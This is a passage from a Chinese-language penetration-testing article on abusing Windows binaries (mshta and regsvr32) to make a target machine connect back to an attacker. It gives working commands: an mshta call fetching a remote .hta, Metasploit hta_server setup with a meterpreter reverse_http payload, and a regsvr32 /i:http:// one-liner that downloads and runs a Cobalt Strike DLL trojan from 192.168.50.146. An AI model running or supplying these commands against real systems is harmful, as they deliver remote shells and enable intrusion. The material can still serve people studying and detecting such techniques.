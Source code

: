 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglic7mZcvwuUwkuJDibXNOSiaVrqWm8BzSFPyJ1PV5UmZOibg6dhGGLeNHCnA/640?wx_fmt=png)

在目标机器上运行 mshta http://ip/123.hta 即可完成上线

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicer6RNypBmiadOxNFTZzleVcCxgg624ueVzy0ZAWHaCTdvkwBqSUaicrQ/640?wx_fmt=png)

在 MSF 中利用：

```
use exploit/windows/misc/hta_serverset payload windows/meterpreter/reverse_httpset lhost ipset lport 监听端口exploit -j
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicukI7CCXsuAjs52Gqic90yUQV2OyGFCOVXU4Va4icAiaBia5BYqib4nHlWww/640?wx_fmt=png)

在目标机器上运行 mshta http://:8080/ycUL3otC.hta 即可完成上线

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicWodKbOicmTVWMnuLhVKK7r86icemdjGHfjmeMiaPFrjM8ABlSNaLGJmhw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglic4ubawQtRToTR273lXDyb37vZQMIm9bbKuclPbhAY5OzKoXdtk7xhhw/640?wx_fmt=png)

**3.regsvr32.exe**

Regsvr32 命令用于注册 COM 组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP 及以上系统的 regsvr32.exe 在 windowssystem32 文件夹下；2000 系统的 regsvr32.exe 在 winntsystem32 文件夹下。  

**语法**

```
regsvr32 [/u] [/s] [/n] [/i[:cmdline]] <Dllname>/u    Unregisters server./s    Prevents displaying messages./n    Prevents calling DllRegisterServer. This parameter requires you to also use the /i parameter./i:<cmdline>    Passes an optional command-line string (cmdline) to DllInstall. If you use this parameter with the /u parameter, it calls DllUninstall.<Dllname>    The name of the .dll file that will be registered./?    Displays help at the command prompt.
```

直接加载 dll 完成上线，同样也可远程加载执行  
这里使用 cobalt strike 演示：

生成一个. dll 的木马：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglictf52gI8ZIkDnCJtorZEqvxE0xuDZGPmiaBXE23oVuYmEHbOMyo3O7hw/640?wx_fmt=png)

部署好远端. dll

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglicQAK0icUMLzAEWcM2GQ6sGBWicSCdXbiaN5SNmYO5RazAyxTuBJic0FOBew/640?wx_fmt=png)

```
regsvr32.exe /s /u /n /i:http://192.168.50.146:80/download/1t.dll scrobj.dll
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAW6XHZS2SARQDt6icUbdglickibpI8kaPTaXDCC2ibFUY2vw9e7WOgMgCc0X7htSTw1L8oCE0dbjEUaA/640?wx_fmt=png)

访问上线。

除了. dll 外，也可以解析. sct 文件。
